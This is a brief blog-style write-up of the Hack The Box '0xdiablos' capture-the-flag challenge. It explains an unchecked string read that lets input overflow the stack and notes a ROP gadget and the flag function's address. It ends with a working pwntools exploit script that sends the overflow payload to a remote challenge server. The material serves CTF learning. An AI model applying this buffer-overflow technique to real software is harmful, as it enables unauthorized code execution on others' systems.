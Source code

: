 ```yaml
---
layout: post
title: Hack the Box rev 0xdiablos
image: /assets/img/HTB-Logo.png
date:   2022-12-12 11:15:01
tags:
- rev
description: Basic rev challenge
categories:
- Hack The Box
---
```




you know 0xdiablos

this is a program that reads a string without any checks for boundaries:

![](/assets/img/2022-09-16-15-57-06.png)


this is the stack

![](/assets/img/2022-09-16-15-57-22.png)

We need to call the flag function with arguments a1 and a2 set by us
ROPgadget --binary vuln
W're going to use:
0x08049389 : pop esi ; pop edi ; pop ebp ; ret
push the arguments on the stack as follows


![](/assets/img/2022-09-16-15-33-19.png)


The flag:
![](/assets/img/2022-09-16-15-33-06.png)

We need to push 3 values to the stack 1 which would be the return address and two which are the a1 and a2 arguments.



The address of the flag function is 0x80491E2. 

Exploit:
```
from pwn import *
sender=b'a'*180+2*4*b'a'+p32(0x80491E2)+b'retu'+p32(0xDEADBEEF)+p32(0xC0DED00D)
#io = process("./vuln")
io=remote('178.62.82.68',30544 )
#io=gdb.debug("./vuln",'break main  ')
#sleep(3)
io.sendline(sender)
io.interactive()
```
